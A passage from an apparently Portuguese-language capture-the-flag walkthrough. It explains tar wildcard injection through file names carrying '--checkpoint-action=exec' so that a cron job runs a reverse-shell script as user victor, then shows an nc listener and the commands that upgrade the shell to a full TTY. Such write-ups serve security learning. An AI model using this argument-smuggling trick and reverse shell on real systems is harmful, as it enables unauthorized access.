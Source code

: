 O arquivo "**--checkpoint=1**" e o "**--checkpoint-action=exec=sh shell.sh**" será injetado como argumento no "**tar**", assim fazendo com que o "**tar**" execute o "**shell.sh**", o arquivo "**shell.sh**" contém uma reverse shell, assim conseguimos uma shell no usuário **victor**.

Com os arquivos criados, executamos o nosso netcat para escutar na porta 80 e aguardamos a crontab:

```
nc -lnvp 80
```

<figure><img src="./assets/37 (1).png" alt=""><figcaption></figcaption></figure>

**Gerar shell full tty:**

```
export TERM=xterm
script /dev/null -c bash
Cntrl + Z
stty raw -echo && fg
```

<figure><img src="./assets/37.png" alt=""><figcaption></figcaption></figure>
